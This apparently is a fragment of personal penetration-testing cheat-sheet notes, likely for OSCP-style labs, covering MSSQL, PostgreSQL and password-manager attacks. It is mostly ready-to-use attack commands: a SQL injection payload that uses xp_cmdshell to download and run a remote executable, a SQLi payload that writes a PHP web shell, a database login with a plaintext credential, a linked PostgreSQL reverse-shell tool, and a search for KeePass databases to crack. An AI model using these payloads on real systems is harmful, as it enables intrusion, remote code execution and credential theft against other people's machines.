 # SQL
```MySQL
';EXEC xp_cmdshell 'curl -o C:\Users\Public\rev.exe http://192.168.45.159/rev.exe & C:\Users\Public\rev.exe';--
```
*Important:* `cmd.exe` respects ampersand `&` but not semicolon `;`

```bash
impacket-mssqlclient sql_svc:Dolphin1@10.10.201.148 -port 1433 -windows-auth
```
***NOTE: try without domain and with `-windows-auth`***

### WebShell via SQLi
```SQL
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php"
```
E.g., https://sudsy-fireplace-912.notion.site/Pebbles-from-Proving-Grounds-without-SQLMap-by-Luis-Moret-lainkusanagi-23b29df77e6946a6bb8cb213a76a9ac8
## PSQL

```bash
psql -h 192.168.193.47 -U root postgres -p 5437
```
- Database name in this example is "postgres"; if you do not provide a database name, psql will assume it is the same as the given username
```SQL
select version();
\du+ %% list database users %%
SELECT pg_user.usename FROM pg_catalog.pg_user; %% Similar to above %%
\l %% show databases %%
\c %% connect to database %%
\dt %% show database tables %%
```

PSQL reverse shell:
https://github.com/squid22/PostgreSQL_RCE/tree/main

# Web
https://www.reddit.com/r/oscp/comments/1j3iujt/wtf_is_sql_injection_sqli_for_the_oscp_and_beyond/

# Cracking
## (KeePass) Password Manager

KeePass database stored as a `.kdbx` file on the system (and there may be more than one!)

Find ALL `.kdbx` files on-disk:
```PowerShell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
